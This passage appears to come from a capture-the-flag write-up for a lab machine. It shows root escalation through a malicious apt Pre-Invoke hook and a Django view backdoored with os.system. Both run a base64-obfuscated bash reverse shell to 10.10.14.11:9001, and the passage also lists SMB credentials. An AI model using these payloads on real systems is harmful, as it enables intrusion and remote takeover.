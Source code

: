## root



exploit apt update

```bash
cd /etc/apt/apt.conf.d
echo 'apt::Update::Pre-Invoke { "echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS85MDAxIDA+JjEiCg==|base64 -d|bash"};' > 00-test
```

got root shell.



## proof

```bash


```



# beyond root

##  www-data shell way 2

when you got admin creds from `__init__.py`,  the password works for smb on kyle.

mount and modify views.py

```bash
smbmap -H 10.10.11.101 -u kyle -p ToughPasswordToCrack

sudo mount -t cifs -o user=kyle,password=ToughPasswordToCrack //$tip/write2_project /mtn/write
```



check views.py, this running on 80 local

```bash
from django.shortcuts import render
from django.views.generic import TemplateView
import os

def home_page(request):
    template_name = "index.html"
    return render(request,template_name)
```



add shell payload to this.

```bash
from django.shortcuts import render
from django.views.generic import TemplateView
import os

def home_page(request):
    os.system('echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMS85MDAxIDA+JjEiCg==|base64 -d|bash
')
    template_name = "index.html"
    return render(request,template_name)
```
